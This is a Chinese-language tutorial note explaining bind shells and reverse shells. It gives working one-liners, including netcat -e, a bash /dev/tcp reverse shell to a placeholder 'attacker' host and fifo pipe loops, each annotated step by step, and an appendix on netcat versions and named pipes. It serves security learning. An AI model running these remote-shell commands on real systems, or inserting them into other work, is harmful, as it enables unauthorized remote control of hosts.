




# Bind Shell / Reverse Shell
[TOC]

## 简介
目标主机把 shell 绑定到一个 socket，攻击者连接此 socket，实现远程控制。



## 正向 Shell（Bind Shell）
目标主机监听一个端口，并在此端口提供绑定了 shell 的 socket，攻击者连接此端口即可控制。

### 攻击端
只需要发起连接，接着执行命令就行
```bash
nc target 1234
command ...
```

### 目标端
#### netcat execute
netcat 的 `-e` 参数可以把网络连接绑定到一个程序上，这里绑定到 shell
```bash
nc -lvp 1234 -e /bin/bash
```

#### 双端管道 netcat
两个 nc 进程组成管道两端，分别管指令输入和反馈输出，shell 绑定在管道中间
```bash
nc -lv 1234 | bash 2>&1 | nc -lv 5678
```
攻击端需要开两个端口，很麻烦，差评。
```bash
# 指令输入端口
nc target 1234
# 反馈接收端口
nc target 5678
```

#### fifo 数据流环路
如果 OpenBSD 版 netcat 没有 `-e` 参数，可以使用命名管道（fifo）实现
```bash
# 创建临时 fifo
rm -f /tmp/f;
mkfifo /tmp/f; 

# Bind Shell
cat /tmp/f | bash -i 2>&1 | nc -lv 1234 &>/tmp/f
```
以下是命令解释，关于环路、fifo、nc 的详细问题参考附录
```bash
/tmp/f # 存储待执行命令

cat /tmp/f | # 读取待执行命令并传给 bash 执行

bash -i # 交互模式（不交互其实也行）
    2>&1 | # 合并 stderr 和 stdout，传给 nc 发送

nc -lv 1234 # 未连接时: 监听端口
            # 输入时: 接收攻击端传入的命令并存储
            # 输出时: 发送 bash 的执行结果到攻击端
    &>/tmp/f # 将攻击端传入的命令存储，供 cat 取出
```

## 反弹 Shell（Reverse Shell）
目标主机把 shell 绑定到一个 socket，并主动连接攻击者，攻击者监听此 socket，实现远程控制。

### 攻击端
监听一个端口，等待目标主机连接就行
```bash
nc -lv 1234
command ...
```

### 目标端
#### bash
通过 bash 的内置功能实现反向 shell
```bash
bash -i >& /dev/tcp/attacker/1234 0>&1
```
解释如下
```bash
bash -i # 交互模式
  >& # 同时重定向 stdout 和 stderr
    /dev/tcp/attacker/1234 # bash 内建的虚拟 TCP 路径
      0>&1 # stdin 也指向 stdout 当前所指（即 TCP socket）
           # 现在 bash 的 0/1/2 都在 socket 上了
```

#### netcat execute
用法和正向 shell 里面的差不多。仅传统版本 nc 可用，具体版本差异参考附录。
```bash
nc attacker 1234 -e /bin/bash
```

#### 双端管道 netcat
依旧两个端口，只不过都主动发
```bash
nc attacker 1234 | bash 2>&1 | nc attacker 5678
```
相应的，攻击端听两个端口
```bash
nc -lv 1234
nc -lv 5678
```

#### fifo 数据流环路
```bash
# 创建临时 fifo
rm -f /tmp/f;
mkfifo /tmp/f;

# Reverse Shell
nc attacker 1234 < /tmp/f | bash &> /tmp/f
```
解释如下
```bash
/tmp/f # 存储命令执行结果

nc attacker 1234 # 未连接时: 连接攻击端
                 # 输出时: 读取执行结果发回攻击端
                 # 输入时: 接收攻击端发的命令，传给 bash 执行
    < /tmp/f # 重定向 stdin，可读取执行结果

bash # 执行命令（或 -i 开交互模式）
    &> /tmp/f # 将执行结果存储，供 nc 取出
```

## TTY
管道实现的 shell 不支持 `sudo`、`vim` 或 <kbd>Ctrl+C</kbd> 等，需要升级为 TTY。具体升级方法以后再展开。

## 附录
### nc
netcat 存在 OpenBSD（现代 linux 默认）和 GNU、Hobbit 等传统版本，在参数上有些差异。
| 功能 | OpenBSD nc | 传统 nc |
|------|-----------|---------|
| 监听端口 | `nc -l 1234` | `nc -lp 1234` |
| `-e` 执行程序 | 不支持（安全考虑） | 支持 |
| `-p` 含义 | **源端口**（发送方端口） | **监听端口**（接收方端口） |
| `-k` 持续监听 | 支持 | 不支持 |

大多数现代系统使用 OpenBSD 版 nc，没有 `-e` 参数，无法直接绑定 shell，需要使用 fifo 数据流环路。

### fifo
命名管道（fifo）是一种特殊的文件，用于在进程间传递数据。

#### 特性
- 不写磁盘，只在内存中传递数据
- 双端连接，读写端必须同时存在，否则阻塞
- 单向传递，数据只从写端流向读端
- 人走茶凉，所有写者退出时才会写 EOF，否则持续
>[!TIP] 烧烤
这其实就像一个临时连接通道，收发端各自等待匹配，匹配到可以传单向数据，发端退出时通道关闭。

#### 结合 Bind Shell
fifo 数据流环路能支撑 Bind Shell 交互，关键在两个性质
>[!NOTE] 连贯性
    fifo 阻塞式读出，有写入时才读。在 bash 或 nc 处理数据流时，fifo 会等待写入，并在写入时立即读出，保证数据流的连贯性。

>[!NOTE] 持续性
    nc 或 bash 持续作为 fifo 的写者，fifo 总是不写 EOF。读者读不到 EOF 不退出，保证数据流的持续性。

### 数据流环路
fifo 数据流环路有两种组织模式，其中数据流沿 fifo 管道传递的方向不同，但效果区别不大。

上文中的 Bind Shell 和 Reverse Shell 分别使用了 N-B 模式和 B-N 模式，本质是让先产生数据的一方写入 fifo。

#### N-B 模式
```bash
cat /tmp/f | bash | nc &>/tmp/f
```



fifo 中存储的是攻击端传入的，待执行命令。

#### B-N 模式
```bash
nc </tmp/f | bash &>/tmp/f
```



fifo 中存储的是 bash 执行命令的结果。

#### 图例


